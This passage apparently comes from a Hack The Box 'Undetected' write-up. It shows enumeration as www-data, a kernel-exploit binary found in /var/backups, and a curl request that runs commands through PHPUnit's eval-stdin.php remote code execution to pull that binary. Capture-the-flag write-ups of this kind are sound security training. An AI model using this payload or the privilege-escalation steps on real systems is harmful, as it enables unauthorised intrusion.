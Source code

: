## Info file

After some enumeration around the file system I found something interesting owned by www-data:

```text
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ find / -user www-data -not -path "/proc/*" -not -path "/var/www/*" 2> /dev/null
<path "/proc/*" -not -path "/var/www/*" 2> /dev/null
/tmp/tmux-33
/dev/pts/0
/var/cache/apache2/mod_cache_disk
/var/backups/info
/run/lock/apache2
```

What is this info file in the backups folder? Let's have a look:

```text
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cp /var/backups/info /tmp
www-data@production:/var/www/store/vendor/phpunit/phpunit/src/Util/PHP$ cd /tmp

www-data@production:/tmp$ file info
file info
info: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=0dc004db7476356e9ed477835e583c68f1d2493a, for GNU/Linux 3.2.0, not stripped

www-data@production:/tmp$ ./info
[-] substring 'ffff' not found in dmesg
[.] starting
[.] namespace sandbox set up
[.] KASLR bypass enabled, getting kernel addr
```

Not sure what it does, pull it over to Kali so we can look a bit further:

```text
┌──(root💀kali)-[~/htb/undetected]
└─# curl --data "<?php system('cat /var/backups/info');" http://store.djewelry.htb/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php --output info
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 27334    0 27296  100    38   270k    385 --:--:-- --:--:-- --:--:--  272k
```

## Look At File Using Strings

First thing to try on binaries is strings to see whats inside in plaintext:

```text
┌──(root💀kali)-[~/htb/undetected]
└─# strings info
/lib64/ld-linux-x86-64.so.2
<SNIP>
[-] setsockopt(PACKET_VERSION)
[-] setsockopt(PACKET_RX_RING)
[-] socket(AF_PACKET)
[-] bind(AF_PACKET)
[-] sendto(SOCK_RAW)
[-] socket(SOCK_RAW)
[-] socket(SOCK_DGRAM)
[-] klogctl(SYSLOG_ACTION_SIZE_BUFFER)
[-] klogctl(SYSLOG_ACTION_READ_ALL)
Freeing SMP
[-] substring '%s' not found in dmesg
ffff
/bin/bash
```